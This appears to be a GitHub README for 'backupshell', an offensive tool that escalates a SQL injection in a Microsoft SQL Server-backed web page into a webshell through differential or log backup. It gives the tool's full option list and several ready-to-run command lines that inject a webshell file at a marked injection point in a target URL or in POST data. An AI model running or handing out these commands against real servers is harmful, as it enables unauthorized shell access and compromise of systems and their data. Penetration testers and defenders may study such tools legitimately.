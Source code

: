 # An implement to get shell from Sql Injection point via sqlserver-backup-shell technic.
```
Powered by Brian.W AKA BigCHAN.
usage: backupshell [-h|--help] -u|--baseUrl "<value>" -m|--method (GET|POST)
                   [-p|--proxyUrl "<value>"] -s|--shell "<value>" [-H|--headers
                   "<value>" [-H|--headers "<value>" ...]] -d|--dbname
                   "<value>" -b|--backdir "<value>" [-D|--postData "<value>"]
                   [-t|--timeout <integer>] [-M|--mode (diff|log)]
                   [-c|--combine <integer>]

                   Sqlserver backup shell exploit.

Arguments:

  -h  --help      Print help information
  -u  --baseUrl   The base URL of the target.Use {*} as the payload inject
                  point.
  -m  --method    The method to use.
  -p  --proxyUrl  The proxy URL.
  -s  --shell     The path to a webshell.
  -H  --headers   The headers to send http request.
  -d  --dbname    The database name.
  -b  --backdir   The backup directory.
  -D  --postData  The post data.Use {*} as the payload inject point.
  -t  --timeout   The timeout of http request.
  -M  --mode      The mode to use.
  -c  --combine   Combine the payload to one request.
```
Example, get shell with database differential backup:
```
$ backupshell -u http://localhost/test.asp?a={*} -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m GET -M log -c 1
```
Example, get shell with log backup:
```
$ backupshell -u http://localhost/test.asp?a={*} -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m GET -M diff -c 1
```
Example, for POST request:
```
$ backupshell -u http://localhost/test.asp -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m POST -D "a={*}" -M log -c 1
```
Example, for set up the payload in url param with POST request:
```
$ backupshell -u http://localhost/test.asp?a={*} -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m POST -D "null" -M log -c 1
```
